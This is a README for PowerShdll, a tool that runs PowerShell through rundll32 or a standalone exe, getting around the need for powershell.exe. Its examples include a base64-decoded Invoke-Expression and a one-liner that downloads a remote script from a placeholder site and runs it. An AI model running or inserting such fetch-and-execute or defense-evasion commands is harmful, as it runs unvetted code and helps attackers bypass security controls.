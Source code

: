 # PowerShdll
Run PowerShell with dlls only.
Does not require access to powershell.exe as it uses powershell automation dlls.

## dll mode:

```
Usage:
rundll32 PowerShdll,main <script>
rundll32 PowerShdll,main -f <path>       Run the script passed as argument
rundll32 PowerShdll,main -w      Start an interactive console in a new window
rundll32 PowerShdll,main -i      Start an interactive console in this console
```

## exe mode

```
Usage:
PowerShdll.exe <script>
PowerShdll.exe -f <path>       Run the script passed as argument
PowerShdll.exe -i      Start an interactive console in this console
```
## Examples
### Run base64 encoded script
```
rundll32 Powershdll.dll,main $a = [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String("BASE64")); Invoke-Expression $a
```
### Download and run script
```
rundll32 PowerShdll.dll,main . { iwr -useb https://website.com/Script.ps1 } ^| iex;
```
## Known Issues

Some errors do not seem to show in the output. May be confusing as commands such as Import-Module do not output an error on failure.
Make sure you have typed your commands correctly!

